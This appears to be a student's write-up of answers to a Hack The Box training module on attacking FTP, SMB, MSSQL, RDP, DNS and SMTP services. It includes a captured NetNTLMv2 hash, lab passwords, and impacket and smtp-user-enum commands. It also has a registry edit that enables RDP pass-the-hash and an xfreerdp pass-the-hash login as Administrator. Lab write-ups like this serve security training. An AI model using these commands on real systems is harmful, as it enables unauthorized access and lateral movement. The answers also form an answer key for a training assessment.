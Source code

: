 # ⚙ Attacking common services

## Assessment

### FTP

What username is available for the FTP server?

* I used the wordlist from ftp **anonymous** and get the username and password list.

<figure><img src="../../.gitbook/assets/image (79) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SMB

What is the name of the shared folder with READ permissions?

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption><p>GGJ</p></figcaption></figure>

What is the password for the username "jason"?

<figure><img src="../../.gitbook/assets/image (39) (1).png" alt=""><figcaption><p>MAKE SURE TO RUN WITH --local-auth</p></figcaption></figure>

Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

### SQL DB

What is the password for the "mssqlsvc" user?

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

`mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:5a04b004fa4e9d85f6186628bbb5f628:0101000000000000800f5b3cd1a9d9013832986d3a5b90e8000000000100100045006c0046004800450079006a0061000300100045006c0046004800450079006a006100020010006d007100780051006100480062004900040010006d00710078005100610048006200490007000800800f5b3cd1a9d90106000400020000000800300030000000000000000000000000300000205c323361b6fee9491d3dade42cd1a0ade509215af472deb6f497f224759ddc0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000`

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Enumerate the "flagDB" database and submit a flag as your answer.

```
impacket-mssqlclient 'mssqlsvc:princess1@10.129.203.12' -windows-auth
```

* Then explored the flagDB and got the hash.

### RDP

{% hint style="success" %}
RDP to target with username "`htb-rdp`" and password "`HTBRocks!`"
{% endhint %}

What is the name of the file that was left on the Desktop? (Format example: filename.txt)

* `pentest-notes.txt`

Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

* `DisableRestrictedAdmin`

Connect via RDP with the Administrator account and submit the flag.txt as you answer.

<figure><img src="../../.gitbook/assets/image (20) (2).png" alt=""><figcaption><p>Administrator:0E14B9D6330BF16C30B1924111104824</p></figcaption></figure>

1. `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
2. `xfreerdp /v:10.129.203.13 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824 /dynamic-resolution`
3. ![](<../../.gitbook/assets/image (8) (1) (1).png>)

### DNS

Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* used subbrute to enum the subdomain.
* found hr.inlanefreight.htb.
* performed dns zone transfer on hr.inalnefreight.htb.
* got the flag.

### EMAIL

What is the available username for the domain inlanefreight.htb in the SMTP server?

* ```shell-session
  smtp-user-enum -M RCPT -U ../users.list -D inlanefreight.htb -t 10.129.203.12
  ```

Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.

<figure><img src="../../.gitbook/assets/image (58) (1) (1).png" alt=""><figcaption><p>marlin@inlanefreight.htb:poohbear</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (41) (1).png" alt=""><figcaption></figcaption></figure>


